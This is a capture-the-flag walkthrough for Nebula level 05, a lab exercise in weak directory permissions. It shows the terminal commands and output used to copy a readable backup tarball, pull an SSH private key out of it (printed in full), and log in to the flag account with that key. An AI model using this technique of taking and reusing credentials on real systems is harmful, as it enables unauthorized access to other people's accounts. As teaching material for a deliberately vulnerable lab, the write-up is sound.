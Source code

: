 ```yaml
---
layout: post
title: 'Exploit Exercises: Nebula Level 05'
date: 2018-07-16 15:48 -0300
categories: [nebula, writeups]
tags: [ nebula, writeups, level, exploit, exercise, tutorial, solution]
---
```


![Image of Nebula Terminal](/uploads/Screenshot%20from%202018-07-16%2000-20-16.png)

Check the flag05 home directory. You are looking for weak directory permissions
To do this level, log in as the level05 account with the password level05. Files for this level can be found in /home/flag05.

### Source code

There is no source code available for this level.

### Solution

Of course we are going to login and go to the flag account folder, but we will be surprised to see this!

```terminal
level05@nebula:/home/flag05$ ls -al
total 5
drwxr-x--- 4 flag05 level05   93 Aug 18  2012 .
drwxr-xr-x 1 root   root      80 Aug 27  2012 ..
drwxr-xr-x 2 flag05 flag05    42 Nov 20  2011 .backup
-rw-r--r-- 1 flag05 flag05   220 May 18  2011 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 May 18  2011 .bashrc
-rw-r--r-- 1 flag05 flag05   675 May 18  2011 .profile
drwx------ 2 flag05 flag05    70 Nov 20  2011 .ssh
level05@nebula:/home/flag05$
```

Well under our flag folder we have nothing that we can use. Nada! Yet still we have our flag straight under your nose! The best hint for this challenge is "You are looking for weak directory permissions". So if we run this command:

```terminal
level05@nebula:/home/flag05$ ls -lAh
total 5.0K
drwxr-xr-x 2 flag05 flag05   42 Nov 20  2011 .backup
-rw-r--r-- 1 flag05 flag05  220 May 18  2011 .bash_logout
-rw-r--r-- 1 flag05 flag05 3.3K May 18  2011 .bashrc
-rw-r--r-- 1 flag05 flag05  675 May 18  2011 .profile
drwx------ 2 flag05 flag05   70 Nov 20  2011 .ssh
level05@nebula:/home/flag05$
```

Or just this:

```terminal
level05@nebula:/home/flag05$ ls -al /home/flag05/
total 5
drwxr-x--- 4 flag05 level05   93 Aug 18  2012 .
drwxr-xr-x 1 root   root      80 Aug 27  2012 ..
drwxr-xr-x 2 flag05 flag05    42 Nov 20  2011 .backup
-rw-r--r-- 1 flag05 flag05   220 May 18  2011 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 May 18  2011 .bashrc
-rw-r--r-- 1 flag05 flag05   675 May 18  2011 .profile
drwx------ 2 flag05 flag05    70 Nov 20  2011 .ssh
level05@nebula:/home/flag05$
```

We will observe a hidden folder called ".backup" with the permissions drwxr-xr-x. All fine let’s see what is in it!

```terminal
level05@nebula:/home/flag05/.backup$ tar -xzvf backup-19072011.tgz
.ssh/
tar: .ssh: Cannot mkdir: Permission denied
.ssh/id_rsa.pub
tar: .ssh: Cannot mkdir: Permission denied
tar: .ssh/id_rsa.pub: Cannot open: No such file or directory
.ssh/id_rsa
tar: .ssh: Cannot mkdir: Permission denied
tar: .ssh/id_rsa: Cannot open: No such file or directory
.ssh/authorized_keys
tar: .ssh: Cannot mkdir: Permission denied
tar: .ssh/authorized_keys: Cannot open: No such file or directory
tar: Exiting with failure status due to previous errors
level05@nebula:/home/flag05/.backup$ ls -al
total 2
drwxr-xr-x 2 flag05 flag05    42 Nov 20  2011 .
drwxr-x--- 4 flag05 level05   93 Aug 18  2012 ..
-rw-rw-r-- 1 flag05 flag05  1826 Nov 20  2011 backup-19072011.tgz
level05@nebula:/home/flag05/.backup$
```

Uuuuuuuuuuuu, permission denied at "tar -xzvf backup-19072011.tgz" command! Nope. Let’s move it to another folder that we control (~/ or /tmp) and let’s unzip the tgz.

```terminal
level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz ~/
level05@nebula:/home/flag05/.backup$ cd ~/
level05@nebula:~$ ls
backup-19072011.tgz
level05@nebula:~$ ls -al
total 9
drwxr-x--- 1 level05 level05   80 Oct 18 12:43 .
drwxr-xr-x 1 root    root      80 Aug 27  2012 ..
-rw-r--r-- 1 level05 level05  220 May 18  2011 .bash_logout
-rw-r--r-- 1 level05 level05 3353 May 18  2011 .bashrc
drwx------ 2 level05 level05   60 Oct 18 12:27 .cache
-rw-r--r-- 1 level05 level05  675 May 18  2011 .profile
drwx------ 2 level05 level05    3 Aug 27  2012 .ssh
-rw-rw-r-- 1 level05 level05 1826 Oct 18 12:43 backup-19072011.tgz
level05@nebula:~$ mkdir ./test
level05@nebula:~$ tar -xvzf backup-19072011.tgz -C ./test
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:~$
```

Fun time. I’ve seen peoples trying to get the SSH key and to find the password in order to connect to the flag account in order to execute getflag to finish the task.

You could try this also if you want to waste your time on this task.

```terminal
level05@nebula:~/test/.ssh$ ls -al
total 12
drwxr-xr-x 2 level05 level05  100 Jul 19  2011 .
drwxrwxr-x 3 level05 level05   60 Oct 18 12:44 ..
-rw-r--r-- 1 level05 level05  394 Jul 19  2011 authorized_keys
-rw------- 1 level05 level05 1675 Jul 19  2011 id_rsa
-rw-r--r-- 1 level05 level05  394 Jul 19  2011 id_rsa.pub
level05@nebula:~/test/.ssh$ cat ./id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAywCDXFL7nGpgxuT8y8ZYyzif565M6LexECfaRFl6ECQtP2Vp
vns4RR0HeVFpZMD2dhQQ76sXXK4Jph0/xVRgYytF1hsCJLiedJ3+aWyRMYtkgvZD
TDDD9lYGPzsb3FLqBocxCEpYJLruISY1YdzXpYgIBEVc8Sgq8Ur1uPMHAMYOL+b3
Hga2upWO7vBU9g91SLB6IMyje+2doO5NqmPNgNLzqsPNnv4eiFy46WMAbq9K5tP7
txhQdRxYZwMbhnJ+CLJ0EgXUAgdkvnjlGeD5okP61Eh7lbzHiws68SkflBvcw8KA
sMF6TSXoQECRgoi9ycwTZy4xWspUqij+sY+3EQIDAQABAoIBAAGir2w+/ufzs3Pm
xGKf5nc8rY0gSl5VnIeUyp1iWylmITcxifiO5ZUo9rZzgXXeWB37a2eC6V1Fya4c
7jaYx24FGzruXMYO9rfZzgLrbQAJL3YepcwnWGzTpJk90Kulv1zuGecHMk6ZcvGx
bRysutAKmIXwSR9oQ3BOOkyTKKtI6YeKSnUNU1KVO1t//ps2wFcfXRFb17prpokx
5clWwfUYRLBQlB4XjBIJ3tswpyC0PNOFfzoF+VeUlN9XZFrL0JWHX1F9DDOFJYL5
bXw7zwhjEvZ0/qOvZSJiH4lkbmANsBeMNY/JOGV6T7dWthKBGehCnupeADZVaSeo
Qlysa0ECgYEA6x4FwgpeqNtNGeCcSAUtoviTYMD5LfMEpY8t9eGdRpzw1CDlmG9x
k1LgzE3eA0qlJYx5NNqYEefIPVLdmSuSGS/5KqHeB8Ph7+WqLmguwIIIrfRJoPaD
ON2XqLU6YzAEazTrXnqALjOvP3qdN57xK0zoBAfYlkXJRgMYE1S23YsCgYEA3QhF
Fl11csPc2Yyz/7+9MG9JnOckYvuir+bf3fj/HEuIC9ylwXd4GfSLAW02Sg8DlfRh
M7MxCW9OEWtKgUtHe3fGc6/6X1yF7QfeAYZm8UX/fo6PxuX++mvfPxM4i6vRjgzB
Qy8WisqTK9nLZO+hEdPoVqalz0iUsvu2umz0CVMCgYAsNoUWrCSI1FR3XUmGMZMX
Zm8wbpltDpn9GCOobTjKIpEXEuiZ9bsB3T/wq2Poco0DtprEWabnFxMMlRyexRbA
LclJPw8lnqxKFIIgH+9KvCktrRZ7cl/SvbjbPNkx9cGe92Cbb6XTCl0WLtSJtRXc
8qVevKr59z2WMNbCK9gHaQKBgQDRaQNjpBohKFX2OytSU8uftuBMamV77iJ9e0SA
Hmc83IbBjkPwnwrHtHt6V4lG8yCXktgAznXYFX8mW7tT8gmAfcMkWgbhEFzGbFy2
nyqqzoG42sJ3U/KWOVtifAhns9qvNYBo8ZTu2+xBcHAWaj31EQqgBfU0BPT0+ixu
RcmThwKBgAi0ej7ylHhtwODQGghRmDpxEx9deJ0jilM2EnqIecJj5jnPW8BKDgV4
Dc1QljBeCQ1r30DGYmOIazbhm+orm4df6HWPayRhNBlkmulqTs5GHvLMPjcKMB0k
0Xna7QOtBAnzoHpLcrfvBdfRNE1eC87YkPUhmm5hBgG0+TeMmWgr
-----END RSA PRIVATE KEY-----
level05@nebula:~/test/.ssh$
```

Or, you could also think that the .tgz file is called backup, so it might be the backup of this system and that it could also store the keys and passwords for ssh. In other smart words:

```terminal
level05@nebula:~/test/.ssh$ cp id_rsa /home/level05/.ssh/
level05@nebula:~/test/.ssh$ ssh flag05@192.168.0.101

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

flag05@nebula:~$ id
uid=994(flag05) gid=994(flag05) groups=994(flag05)
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
flag05@nebula:~$
```

Yes we do not need any password at all, just the private key of the SSH as the system knows already the system as a trusted one. Keep in mind: Be lazy!

